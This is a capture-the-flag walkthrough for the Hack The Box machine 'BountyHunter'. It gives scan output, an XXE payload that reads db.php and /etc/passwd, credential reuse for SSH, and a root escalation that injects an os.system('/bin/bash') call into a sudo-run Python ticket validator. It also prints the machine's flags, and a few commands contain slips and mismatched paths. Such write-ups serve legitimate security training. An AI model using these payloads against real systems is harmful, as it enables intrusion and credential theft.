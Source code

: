 
#Room name BountyHunter 

	#nmap scan
```
# Nmap 7.91 scan initiated Thu Aug 26 17:54:15 2021 as: nmap -sC -sV -oN nmap.cap 10.10.11.100
Nmap scan report for 10.10.11.100
Host is up (0.27s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d4:4c:f5:79:9a:79:a3:b0:f1:66:25:52:c9:53:1f:e1 (RSA)
|   256 a2:1e:67:61:8d:2f:7a:37:a7:ba:3b:51:08:e8:89:a6 (ECDSA)
|_  256 a5:75:16:d9:69:58:50:4a:14:11:7a:42:c1:b6:23:44 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Bounty Hunters
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug 26 17:55:07 2021 -- 1 IP address (1 host up) scanned in 51.86 seconds

```
	
	#Gobuster results
```
/index.php            (Status: 200) [Size: 25169]
/resources            (Status: 301) [Size: 316] [--> http://10.10.11.100/resources/]
/assets               (Status: 301) [Size: 313] [--> http://10.10.11.100/assets/]
/portal.php           (Status: 200) [Size: 125]
/css                  (Status: 301) [Size: 310] [--> http://10.10.11.100/css/]
/db.php               (Status: 200) [Size: 0]
/js                   (Status: 301) [Size: 309] [--> http://10.10.11.100/js/]

```


	#We found tasks on 'http://10.10.11.100/resources/README.txt'

```
Tasks:

[ ] Disable 'test' account on portal and switch to hashed password. Disable nopass.
[X] Write tracker submit script
[ ] Connect tracker submit script to the database
[X] Fix developer group permissions

```

	#We found some interesting Directory 
```
http://10.10.11.100/log_submit.php
```


	#After capturing the request we find that here is xml XXE entity 
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=db.php"> ]>
```
	#In the first field use
```
&xxe;
```
	#We grab the db.php file having this information
```
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
```
![Image](https://raw.githubusercontent.com/sigwotts/HTB-Walkthrough/main/bounty-hunter/Screenshot%202021-09-08%20at%203.56.36%20AM.png)



#But we tried using ssh it didn't worked, then we use to see the /etc/passwd file


	#First we have to encode this to url encoding then to base64
```
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd"> ]>

		<bugreport>
		<title>&xxe;</title>
		<cwe></cwe>
		<cvss></cvss>
		<reward></reward>
		</bugreport>
```


	# By enocoding this to enoding url then to base64 and after replacing the request in the burpsuite, we get
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
development:x:1000:1000:Development:/home/development:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin

``` 
![Image](https://raw.githubusercontent.com/sigwotts/HTB-Walkthrough/main/bounty-hunter/Screenshot%202021-09-08%20at%203.56.21%20AM.png)

	#Here we got the creds 
```
development:m19RoAU0hP41A1sTsq6K
```
#Boom we sucessfully login to the machine via ssh


	#Here we got the user flag
```
e83009fb0ded5f74b50aa794e0562246
```

	#Then we use 
```
sudo -l
```
```
Matching Defaults entries for development on bountyhunter:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py

```

#Now we can exploit by creating a file named as sig.md 
```
# Skytrain Inc   
## Ticket to root  
__Ticket Code:__  
**102 + 10 == 112 and __import__('os').system('/bin/bash') == False
``
	#Then start a python server on your machine
```
http -m python.server 1234
```

#Then upload this file in the /opt directory by using the cmd
```
wget http://10.10.14.157:1234/sig.md
```
	#Then we give permission to the file by 
```
chmod 777 sig.md
```

	#then run the tickerValidator.py
```
sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

	#specify the ticket path to
```
/tmp/sig.md
```
#BOOOOOOOOOOOOOOOOOOOMMMM!!!!!!!!!!!  WE ARE ROOT


	#Now you can get the flag
```
cat /root/root.txt
``
	#Here is the flag
```
0cc723be65032a28eadcc712c03defd5
```





